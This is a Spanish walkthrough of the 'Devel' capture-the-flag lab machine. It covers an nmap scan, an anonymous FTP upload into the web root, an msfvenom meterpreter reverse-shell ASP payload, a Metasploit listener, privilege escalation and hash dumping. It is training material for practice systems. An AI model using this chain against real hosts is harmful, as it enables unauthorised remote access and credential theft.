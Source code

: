 # 4 - Devel \(win\_easyish\) - Msfvenom

```text
nmap -T4 -p- -A -sS 10.10.10.5
```

![](../../.gitbook/assets/imagen%20%28528%29.png)

De ahi vemos que tienen levantada la pagina por defecto de IIS. Entonces a si tienen eso levantado que mas tienen levantado?

## Dirbuster

![](../../.gitbook/assets/imagen%20%28517%29.png)

## FTP

Como tiene anonymous login ingresamos eso mismo como user y pass.

Probemos bajar una imagen random, suponer dog.jpeg y tratar de pasarsela al servidor via fpt ya que esta abierto el puerto.

```text
put dog.jpeg
```

Con eso luego entramos desde la web y esta ahi, en 10.10.10.5:80/dog.jpg

Si no podemos ejecutar el codigo de lo que pongamos no sirve de mucho el que ftp este expuesto, pero como el server lo lee desde la web si es potencialmente malicioso.

Usemos msfvenom:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

Ponemos el payload en un archivo  que subiremos al ftp

![](../../.gitbook/assets/imagen%20%28530%29.png)

Necesitaremos usar eso desde **metasploit**

![](../../.gitbook/assets/imagen%20%28523%29.png)

![](../../.gitbook/assets/imagen%20%28535%29.png)

Aqui preparamos nuestro listening para tomar la consola. Desde FTP le pasamos el archivo que generamos antes **ex.aspx**

![](../../.gitbook/assets/imagen%20%28534%29.png)

**Privilege escalation**

**N**o estan sencillo pero como en esa shell que reventamos no somos figura auth, debemos escalar los privilegios, para esto busca un suggester que le ayuda a automatizar el proceso, luego pide session y hace todo solo.

![](../../.gitbook/assets/imagen%20%28536%29.png)

![](../../.gitbook/assets/imagen%20%28527%29.png)

![](../../.gitbook/assets/imagen%20%28531%29.png)

Con eso se consigue la auth figure y podemos ver los hashdumps..

